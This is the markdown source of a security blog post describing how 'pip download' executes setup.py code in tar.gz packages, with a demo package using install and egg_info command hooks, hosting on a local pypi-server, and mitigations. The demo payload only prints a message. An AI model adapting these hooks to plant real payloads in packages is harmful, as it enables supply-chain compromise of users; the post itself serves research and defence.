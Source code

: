 ```yaml
---
title: "Malicious Python Packages and Code Execution via pip download"
date: 2022-09-09T16:30:29-07:00
draft: true
tags: [
        "pentest", "red","research","supplychain"
    ]   

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Malicious Python Packages"
  description:  "Building and testing a malicious python package that triggers code execution when download with pip."
  image: "https://embracethered.com/blog/images/2022/pypi-server.png"
---
```


This week I learned about a design flaw with `pip download`, which allows an adversary to run arbitrary code. 

I assumed that running `pip install` means anything could happen, but `pip download` seems a bit surprising. 

Both seem useful for red teaming though.

## Background

This post from Yehuda Gelb named [Automatic Execution of Code Upon Package Download on Python Package Manager](https://medium.com/checkmarx-security/automatic-execution-of-code-upon-package-download-on-python-package-manager-cd6ed9e366a8) which the [Security Now! podcast](https://twit.tv/shows/security-now/episodes/887?autostart=false) pointed me towards. 

The post highlights that just running `pip download` can compromise your computer.

It turns out that this behavior is known since at least 2014, based on a pip Github issue named [Avoid generating metadata in pip download](https://github.com/pypa/pip/issues/1884) which raised this concern.

Let's investigate this more closely.

## Authoring a Python package

I had never built a python package before, but the process is well documented. There are different ways to go about it, and the vulnerability exists when using the older `setup.py` variation and when the package is in a `.tar.gz`.

There is a [basic project I put together on Github](https://github.com/wunderwuzzi23/this_is_fine_wuzzi/):

```
git clone https://github.com/wunderwuzzi23/this_is_fine_wuzzi
```

The key piece, which took a few minutes to figure out (stackoverflow is your friend), was to figure out how to specify a command to run. 

The way I went about it (not sure if there are others), is to include `cmdclass` in the setup, which causes pip to execute the provided command function upon both `download` and `install` of the package.

```
...
cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
...
```

My demo just runs a `print` command:

```
...
def RunCommand():
    print("Hello, p0wnd!")


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)
...
```

Now, we are good to go.


## Building the package

The next step is to bundle it up in a package, which is done using:

```
python -m build
```

This will create a `./dist/` folder containing the `wheel` and `tar.gz` files. 

For this demo exploit we are only interesting in the `tar.gz.` file.

In case you encounter errors building, make sure to have `setuptools` and `build` packages installed.


## Hosting the package using pypi-server

Now it's time to host the package on a server. 

To test this out, I decided to host the package on my own test `pypi-server`.

```
pypi-server run -v -p 8080 ./packages
```

Then copy the `tar.gz` file to your pypi-server's `./packages` folder.

![Hosting a package](/blog/images/2022/pypi-server.png)

Above screenshot shows how this looks once running.

## Download or Install the package

Using the `--index-url` it's possible to point `pip` to an alternate package server, which is what we can leverage to test this out:

```
pip download this_is_fine_wuzzi --index-url http://amstrad:8080 --trusted-host amstrad -v
```

And our code will run now as part of this. 

**Notes:** 
1. Messages printed to console won't be shown unless you specify `-v`.
2. The `--trusted-host` option was added because this was quick demo test. If you have a TLS connection with a valid certificate this will not be needed.

There are now tons of ways this can be abused, e.g. just thinking of Jupyter notebooks or Google Colab, etc.


## Mitigations 

The `setup.py` is only executed if the package is in `tar.gz` format. So, either reviewing the tar file or making sure there is a wheel file (`.whl`) present and used.

You can enumerate the offered packages via `https://packagemanager/simple/<package-name>`.

This way one can see what files are hosted for the package (tar or wheel, or both), and download (e.g. `wget`) and inspect the `tar.gz` file if that is the only option.


## Conclusions

Having a `pip download` execute arbitrary code is quite unexpected and easy to repro and perform for an attacker.
Make sure to inspect packages before you download or install them using `pip`. 


## References

* [Automatic Execution of Code Upon Package Download on Python Package Manager](https://medium.com/checkmarx-security/automatic-execution-of-code-upon-package-download-on-python-package-manager-cd6ed9e366a8)
* [Security Now! - Nearly 1/3 of the packages in PyPI trigger an automatic code execution upon download](https://twit.tv/shows/security-now/episodes/887?autostart=false)
* [this_is_fine_wuzzi repro package on Github](https://github.com/wunderwuzzi23/this_is_fine_wuzzi/)
